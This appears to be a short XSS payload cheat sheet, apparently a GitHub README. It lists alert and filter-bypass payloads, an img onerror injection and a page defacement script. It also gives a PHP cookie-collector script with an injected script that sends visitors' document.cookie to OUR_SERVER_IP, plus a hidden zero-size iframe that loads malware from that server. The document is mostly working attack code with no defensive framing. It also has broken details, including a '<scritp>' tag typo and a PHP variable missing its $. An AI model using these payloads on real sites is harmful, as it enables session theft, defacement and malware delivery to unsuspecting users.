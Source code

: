 ```javascript
<script>alert(String.fromCharCode(88,83,83))</script>
```

#### Bypass filter of tag script

`"  onload="alert(String.fromCharCode(88,83,83))`

```javascript
" onload="alert('XSS')
```

bla is not a valid image, so this cause an error

```javascript
<img src='bla' onerror=alert("XSS")>
```

### Persistent

```javascript
>document.body.innerHTML="<style>body{visibility:hidden;}</style><div style=visibility:visible;><h1>HACKED!</h1></div>";
````

### PHP collector

`> cookie.txt`
`chmod 777 cookie.txt`

edit a php page like colector.php as follow:

```php
<?php
  $cookie=GET['cookie'];
  $useragent=$_SERVER['HTTP_USER_AGENT'];
  $file=fopen('cookie.txt', 'a');
  fwrite($file,"USER AGENT:$useragent || COOKIE=$cookie\n");
  fclose($file);
?>
```

Script to put in page:

```javascript
<scritp>new Image().src="http://OUR_SERVER_IP/colector.php?cookie="+document.cookie;</script>
```

#### Malware Donwloader via XSS

```javascript
<iframe src="http://OUR_SERVER_IP/OUR_MALWARE" height="0" width="0"></iframe>
```

#### How to play Mario with XSS

```javascript
<iframe src="https://jcw87.github.io/c2-smb1/" width="100%" height="600"></iframe>
```
